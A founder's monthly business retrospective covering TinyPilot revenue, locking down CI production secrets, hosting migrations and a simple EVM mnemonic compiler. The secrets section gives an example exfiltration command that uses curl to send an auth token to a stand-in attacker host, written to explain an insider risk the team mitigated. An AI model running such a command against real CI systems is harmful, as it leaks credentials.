




**New here?**

Hi, I'm Michael. I'm a software developer and the founder of [TinyPilot](https://tinypilotkvm.com), an independent computer hardware company. I started the company in 2020, and it now earns $80-110k/month in revenue and employs six other people.

Every month, I publish a retrospective like this one to share how things are going with my business and my professional life overall.


## Highlights

- I worked with the TinyPilot team to lock down access to deployment secrets without interfering with our workflows.
- I learned from my mistakes to limit downtime when migrating services between platforms.
- I wrote my first compiler, albeit an extremely simple one.

## Goal Grades

At the start of each month, I declare what I'd like to accomplish. Here's how I did against those goals:

### Fill the gaps in TinyPilot's release documentation

- **Result**: Filled in the gaps we discovered on the last release.
- **Grade**: A

Our March TinyPilot Pro release was the first where [I didn't perform any release tasks directly](/retrospectives/2024/03/#it-turns-out-we-have-a-25-step-release-process). The release went smoothly, but there were points during the process where the next steps were unclear to the team.

I held postmortems with the dev and support engineering teams to gather feedback about the release. Those meetings generated a lot of useful feedback about the process, and we've revised our internal documentation and playbooks to address the hiccups we ran into.

### Complete 2023 taxes

- **Result**: Submitted all tax documents on time.
- **Grade**: A

I had complicated taxes this year because it's my first year married filing jointly, and I was waiting on a few tax forms, but everything is now in.

## [TinyPilot](https://tinypilotkvm.com/) stats



| Metric                   | February 2024  | March 2024    | Change                                          |
| ------------------------ | -------------- | ------------- | ----------------------------------------------- |
| Unique Visitors          | 13,000         | 9,100         | <font color="red">-3,900 (-30%)</font>          |
| Sales Revenue            | $82,517.42     | $107,809.83   | <font color="green">+$25,292.41 (+31%)</font>   |
| Enterprise Subscriptions | $290.70        | $290.70       | 0                                               |
| Royalties                | $3,373.65      | $2,442.12     | <font color="red">-$931.53 (-28%)</font>        |
| Total Revenue            | $86,181.77     | $110,542.65   | <font color="green">+$24,360.88 (+28%)</font>   |
| **Profit**               | **$23,599.09** | **$3,193.73** | **<font color="red">-$20,405.36 (-86%)</font>** |

March was TinyPilot's strongest month of sales revenue in history, narrowly beating [our previous record](/retrospectives/2022/12/#tinypilothttpstinypilotkvmcom-stats) by $600. Profit at the one-month granularity is down, but the three-month average is the more meaningful metric, and that's looking strong.

Visits are down from last month but only because February had an atypical surge in visits from my [year six review](/solo-developer-year-6/) post.

## Tightening access to TinyPilot's production secrets

Over the past few months, we've been [improving TinyPilot's release process](/retrospectives/2024/03/#it-turns-out-we-have-a-25-step-release-process) so that it's more automated and less dependent on me.

In reviewing our release workflow, we realized that too many team members had access to production secrets. Production secrets include things like authentication tokens for publishing new versions of our website or the TinyPilot application.

We're a small team, so in our case, "too many" team members having access meant five people instead of one. Still, four people had access to production secrets that didn't need them.

Most TinyPilot repositories are ["push on green,"](https://www.usenix.org/publications/login/october-2014-vol-39-no-5/making-push-green-reality) meaning that we push every code change to production after it passes our automated tests on CircleCI, our continuous integration service.

We store our secrets as CircleCI environment variables. This initially seemed fine because environment variables are write-only, meaning that you can't read the values after you store them.

{{}}

Once we started thinking more critically about protecting secrets, we realized that despite what CircleCI's web UI suggested, all five team members effectively had access to our environment variables. A malicious team member could extract secrets in one of two ways:

1. They could create a new branch in our code repository and then push a change to our CircleCI config file that exfiltrates a secret to a remote server they control, like `curl http://attacker-server.example.com/exfiltrate?token=$AUTH_TOKEN`
1. They could SSH in to CircleCI for any job and type `echo $AUTH_TOKEN` on the command line.

(1) was semi-possible to detect, but it wasn't something we ever checked. (2) was impossible to detect, as CircleCI doesn't log SSH sessions.

The attack would have to come from within the TinyPilot team, as third-party contributors don't have access to CircleCI environment variables at all.

We looked into tightening access, and CircleCI's documentation recommended storing security-sensitive secrets in "contexts." Contexts are still environment variables but with additional access controls.

Security contexts only allowed you to restrict access to a particular set of people. So, we could have maintained our existing workflow by giving everyone access to the secrets, but then we're back to square one. We could have arbitrarily decided that some subset of the team is trusted and has to initiate every deployment, but that would have added tremendous friction.

We reached out to CircleCI support, and they said they were coincidentally about to release something that would solve our problem. Two weeks later, CircleCI launched [expression-based context restrictions](https://circleci.com/changelog/expression-based-context-restrictions/), which did, in fact, perfectly solve our problem.

CircleCI's expression-based restrictions allowed us to add restrictions to contexts beyond just an allowlist of users. We could restrict secrets to certain branches and disable access when SSH is enabled. We ended up with expressions like the following:

```python
pipeline.git.branch == "master" and not job.ssh.enabled
```

This expression mitigates attack (1) above because a malicious team member who tries to exfiltrate a secret using a branch would not have access to the secret in their branch.

The expression mitigates attack (2) by just making the secret unavailable when a user initiates a CircleCI job with SSH access.

Our `master` branches require at least one approval for any change, so this system is still vulnerable to an attack from two team members doing something malicious together. One corrupt team member could introduce a code change that exfiltrates a secret, and their co-conspirator could approve it. But this would be a particularly noticeable attack, as the change would be in a file we frequently work on, and there'd be a clear audit trail of who put it there.

Overall, I'm happy with CircleCI's expression-based context restrictions. If you're on a team where CI has access to production secrets, I recommend thinking about whether too many team members have access to secrets they don't need.

## Improving my process for migrating services between hosts

When I started TinyPilot, I tended to host services on large providers like Google Cloud Platform and Amazon Web Services. Over the last four years, I've come to prefer smaller vendors like Netlify and Fly.io.

Most of TinyPilot's services run on smaller hosting platforms, but we still had a couple of services I set up at the beginning and never moved, so I decided to consolidate.

One of the migrations was a bit bumpy, and I used the lessons to make the next one smoother.

### The Firebase to Netlify migration (bumpy)

The [TinyPilot website](https://tinypilotkvm.com) is just a static site, so we can host it anywhere. It was on Firebase hosting, as that was what I was using for everything in 2020, and it's been fine. But in rearchitecting our deployment flow around security contexts, I realized it was a good opportunity to move from Firebase to my current preferred host for static sites, Netlify.

It seemed like it would be a simple migration. There's no database or anything to keep in sync. I just had to start publishing the website on Netlify and update my DNS records to point to the new host.

Or so I thought.

I published to Netlify, updated the DNS entries for `tinypilotkvm.com`, tried visiting the site, and: TLS error.

{{}}

That's bad. Nobody wants to shop on a site right after the browser just told them it was going to steal their credit card information.

Worse, I made this change at 9:30 AM ET on a Thursday, so it was during hours when we receive most of our paying customers.

Had Netlify not generated the TLS certificate yet? I checked the TLS error, and it turned out that my browser was complaining about a TLS certificate from Firebase. Huh? Wouldn't Firebase still be serving the old site with the bad certificate?

My mental model of the visitors was that they'd fall into two buckets depending on how fresh the information was in their DNS server:

1. They query a DNS server that has the old Firebase IP address -> They see the old Firebase version working as it did before I updated DNS.
1. They query a DNS server that has the new Netlify IP address -> They see the new Netlify version working.

Even now, I don't understand why I was seeing a Firebase certificate error. The only explanation I can imagine is that Firebase reacts to DNS changes and immediately invalidates certificates when the associated DNS records change. But the Firebase admin dashboard was still showing my certificates as valid.

As a workaround, I configured Firebase to redirect visitors to `netlify-preview.tinypilotkvm.com`, the staging domain I had set up for the new site the day before. That worked, so customers stopped seeing the TLS error. I wish I'd chosen a less weird staging domain than `netlify-preview` because it strongly suggests to customers that something is wonky, but it was better than a TLS error.

For a full day after, the old Firebase site was still receiving traffic, but it slowly dwindled to zero over the course of a few days. After a week, I shut down the Firebase site.

### The AWS to Fly.io migration (smooth)

TinyPilot uses a [LogPaste](https://github.com/mtlynch/logpaste) server to collect diagnostic logs from users. It's a basic Go app, and my preferred platform for Go services is Fly.io. But TinyPilot's LogPaste server was running on AWS LightSail, so I decided to migrate from LightSail to Fly.io.

Migrating LogPaste was slightly harder than migrating the TinyPilot website, as LogPaste also has a SQLite database. But it was also lower stakes, as it wouldn't be a disaster if our LogPaste server went down for a couple of days.

The day before the migration, I dialed down the TTL on the `logs.tinypilotkvm.com` DNS entries to one minute. DNS servers don't have to respect the TTL, but I figured it was helpful that I limit caching for the ones that do.

I also deployed a staging version of LogPaste to Fly.io under the domain name `logs2.tinypilotkvm.com`. That way, if I had to pull a redirect trick like I did with the TinyPilot website, I'd have a not-too-weird URL to point users to.

I also prepared a migration script I could run to move data from the old LightSail version to the new Fly.io version. It was a simple bash script that [downloaded the production database](https://github.com/mtlynch/logpaste/blob/5509d61613f0bbba709ab9f093930c9696c318a8/dev-scripts/download-prod-db) from the Amazon S3 bucket and [uploaded it](https://github.com/mtlynch/logpaste/blob/master/dev-scripts/upload-prod-db) to the storage bucket backing the new Fly.io server.

On deployment day, I ran the migration as soon as I woke up at 7 AM. That way, slightly fewer people would be affected if there were a temporary outage.

Fortunately, the migration went smoothly. All the DNS servers in my chain seemed to respect the 1-minute TTL, as the logs for my Fly.io server showed LogPaste processing requests to `logs.tinypilotkvm.com` almost immediately.

I left the LightSail version up for another week and then deleted it when I confirmed it wasn't receiving traffic anymore.

### A general strategy for migrating services between hosts


**Note**: This is probably not the optimal strategy for migrating services. I suspect that there are better practices for minimizing certificate errors, but this is better than what I was doing before.


Next time I have to move a service between hosts, I'm going to follow the process that I learned this month.

As a general example, imagine that you're moving a service that you host at the URL `example.com` from platform A to platform B.

#### Preparation day

A day or two before you plan to migrate, perform these steps:

1. Deploy your service to platform B.
1. Create a certificate for your service on platform B under a subdomain.
   - This is usually under an "add a custom domain" setting on your hosting platform.
   - Choose a subdomain that won't weird out your customers too much if they see it, like `www2.example.com` or `web.example.com`.
   - Don't choose a subdomain that looks scary to end-users, like `insecure-staging.example.com`.
1. Add DNS entries for the new subdomain pointing to platform B.
1. Make sure you can visit platform B through your new subdomain with no TLS errors in your browser.
1. Reduce the TTL on the production `example.com` DNS entries to something low, like 1-5 minutes.
1. Generate a certificate for the production `example.com` domain on platform B.

#### Migration day

On the day of the migration, perform these steps.

1. Choose time when traffic is low.
   - If you might need support from your teammates, make sure they're available and aware of the migration.
1. Update DNS entries for `example.com` to point to platform B instead of platform A.
1. Check that you can still access your service through the main `example.com` URL.

If you see TLS errors for platform A when visiting your service after the DNS changes:

- As a temporary workaround, configure platform A to redirect traffic to the staging subdomain you set up on preparation day.
- Use `dig` to check when the DNS record expires from your local computer's perspective, and see if the TLS error goes away after the DNS entry expires.

#### Decommissioning the old server

Wait at least 24 hours after the migration, and then perform these steps:

1. Verify that traffic to platform A has stopped.
1. Decommission your server on platform A.
1. Verify that your service is still accessible without platform A.
1. Restore the TTL on your production DNS entries to something sensible, like 60 minutes.
1. Remove the staging subdomain from your DNS entries.

## Side projects

### Writing a simple compiler

To learn more about Zig, interpreters, and Ethereum, I've been working for the past few months on a Zig implementation of the Ethereum virtual machine called [eth-zvm](https://github.com/mtlynch/eth-zvm).

I'd written [performance benchmarks for eth-zvm](/zig-extraneous-build/), but the programs they executed were just chunks of Ethereum bytecode, like this:

```text
60016000526001601ff3
```

That bytecode is difficult to edit. When I wanted to modify my tests, I had to decompile the bytecode to something human-readable, make my changes, then recompile everything back to raw bytes.

Ethereum has a human-readable representation of bytecode called mnemonic format, so the mnemonic equivalent of the bytecode above looks like this:

```bash
PUSH1 0x01
PUSH1 0x00
MSTORE
PUSH1 0x01
PUSH1 0x1f
RETURN
```

It's still low-level, but it's easier to understand than raw bytes.

I wanted to store my tests in mnemonic format rather than bytecode. I looked for a mnemonic to bytecode compiler, but I couldn't find anything that worked out of the box on the command-line.

It seemed like an easy enough task, so I decided to write my own [mnemonic to bytecode compiler](https://github.com/mtlynch/eth-zvm/tree/b21747c6873cc2187c83298032e2869d45da5274/src/mnemonic-compiler).

As far as compilers go, mine is about as simple as it gets. There's almost a perfect 1:1 mapping of every possible input token and every byte of output.

Here's a very simple program:

```bash
$ echo 'RETURN' | ./mnc /dev/stdin /dev/stdout
f3
```

The [opcode value for `RETURN`](https://www.evm.codes/#f3?fork=cancun) is `0xf3`, so the output bytecode is just `f3`.

It gets a bit more complicated when an opcode has an argument, like `PUSH1`, which pushes a single byte onto the stack:

```bash
$ echo 'PUSH1 0x42' | ./mnc /dev/stdin /dev/stdout
6042
```

I can also use `PUSH32`, which pushes a 32-byte value onto the stack:

```bash
$ echo 'PUSH32 0x42' | ./mnc /dev/stdin /dev/stdout
7f0000000000000000000000000000000000000000000000000000000000000042
```

I implemented support for inline comments, so here's my example application from above, but with comments:

```bash
$ tempfile="$(mktemp)" && \
  cat << EOF > "${tempfile}"
// Store 0x01 in memory as a 32-byte word.
PUSH1 0x01
PUSH1 0x00
MSTORE

// Return 1 byte from offset 31 in memory.
PUSH1 0x01
PUSH1 0x1f
RETURN
EOF

$ ./mnc "${tempfile}" /dev/stdout
60016000526001601ff3
```

I now store eth-zvm's benchmark examples in human-readable mnemonic format and [compile them to bytecode on-demand](https://github.com/mtlynch/eth-zvm/blob/b21747c6873cc2187c83298032e2869d45da5274/.circleci/config.yml#L22-L41) to run the benchmarks.

It was fun to write a compiler, even a simple one. My compiler currently accepts code that's semantically incorrect like `PUSH1 RETURN`, but it's good enough for my purposes. The project continues to be a fun way to teach myself about how programming languages work at a deeper level.

## Wrap up

### What got done?

- Locked down access to TinyPilot's production secrets.
- Published ["Why does an extraneous build step make my Zig app 10x faster?"](https://mtlynch.io/zig-extraneous-build/)
- Published ["Building My First Homelab Server Rack."](https://mtlynch.io/building-first-homelab-rack/)
- Consolidated TinyPilot's hosting to Fly.io and Netlify.
- Delegated our RMA process to a third-party vendor.

### Lessons learned

- Storing secrets in CI environment variables is good, but the more team members you have, the more you should restrict access.
- Use a rigorous approach when migrating services between platforms.
  - Choose a time of day when you won't disrupt business but have time to recover from mistakes.
  - Dial down DNS TTL at least a day before the migration.
  - Prepare new TLS certificates in advance of the migration.
  - Choose a staging subdomain name that you can tolerate end-users seeing if things go awry.

### Goals for next month

- Begin conversations with three new potential TinyPilot distributors or sales channels.
- Oversee development of two new TinyPilot software features.
- Coordinate with manufacturer on production planning for the rest of 2024.
